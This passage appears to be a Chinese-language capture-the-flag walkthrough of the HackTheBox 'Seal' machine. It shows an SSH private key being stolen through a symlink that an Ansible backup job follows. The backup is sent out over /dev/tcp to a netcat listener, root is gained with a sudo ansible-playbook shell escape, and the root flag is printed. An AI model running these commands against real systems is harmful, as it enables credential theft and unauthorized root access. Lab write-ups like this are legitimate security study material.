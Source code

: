 - 觀察備份檔路徑，發現會備份
    - `/var/lib/tomcat9/webapps/ROOT/admin/dashboard`
    - ![](https://i.imgur.com/wxhkvBb.png)
    - 是使用 `ansiple-playbook` 進行備份的
        - 可以用 ps 觀察到
        - ![](https://i.imgur.com/s9qxK5n.png)
        - 他是用 `luis` 的權限執行的
    - 這邊可以先注意一下 `copy link = yes`
        - 等一下會運用到
- 觀察 `ansible-playbook`
    - `/usr/bin/ansible-playbook`
    - 到 `/usr/bin`
        - `ls -al | grep ansible-playbook`
        - `ls -al | grep ansible`
            - ![](https://i.imgur.com/GhQOmhL.png)
            - 發現他會 link 到一個Python 檔案
                - ![](https://i.imgur.com/XDs8mQg.png)
            - 裡面滿複雜的，應該不會要去 Exploit 他ㄅQQ
                - 而且相關目錄我們也都沒有權限
- 開始通靈
    - 發現使用者的家目錄有一個 `.ssh`
        - ![](https://i.imgur.com/5Ke4grH.png)
        - 猜他裡面可能有 `id_rsa` 可以偷
        - 而  ansible-playbook 又可以備份 Link
        - 所以我們可以把檔案 soft link 到備份的地方
- 發現備份的目錄的 `uploads` 可寫
    - ![](https://i.imgur.com/SE6ybm4.png)
    - `ln -s /home/luis/.ssh/id_rsa id_rsa`
        - ![](https://i.imgur.com/oCEWQAk.png)
- 等待 30 秒產出新的備份檔案
    - ![](https://i.imgur.com/GNIk1o8.png)
    - 用 nc 帶回家
        - `nc -l -p 1234 > backup.gz`
        - `cat backup-2021-08-14-10:21:33.gz > /dev/tcp/10.10.16.5/1234`
- 發現真的有 `id_rsa`
    - ![](https://i.imgur.com/L8tbcv2.png)
    - 是 OpenSSH 的 private key
        - ![](https://i.imgur.com/owMnNYr.png)
## 使用者提權
- 使用 SSH 登入
    - `ssh luis@seal.htb -i id_rsa`
    - ![](https://i.imgur.com/ZsYnY63.png)
- 取得 User Flag
    - ![](https://i.imgur.com/dp9qz6j.png)
- `sudo -l` 提權起手式
    - ![](https://i.imgur.com/QfBwQMZ.png)
    - 發現可以使用 ansible-playbook
- GTFOBins 搜尋
    - 找到了 ansible-playbook 提權方法
        - https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo
    - `TF=$(mktemp)`
    - `echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF`
    - `sudo ansible-playbook $TF`
    - ![](https://i.imgur.com/W8tUtIO.png)
- 取得 Root Flag
    - ![](https://i.imgur.com/ku1ddc6.png)
    - `b4890611a188410400d56e578f30979e`

## 心得
對於湯姆貓還是有一點陌生QQ，包含傳 jsp webshell 等部分，還有目錄截斷之類的也要多研究一下，這一題我覺得除了通靈 id_rsa 之外，整體來講題目滿好玩的！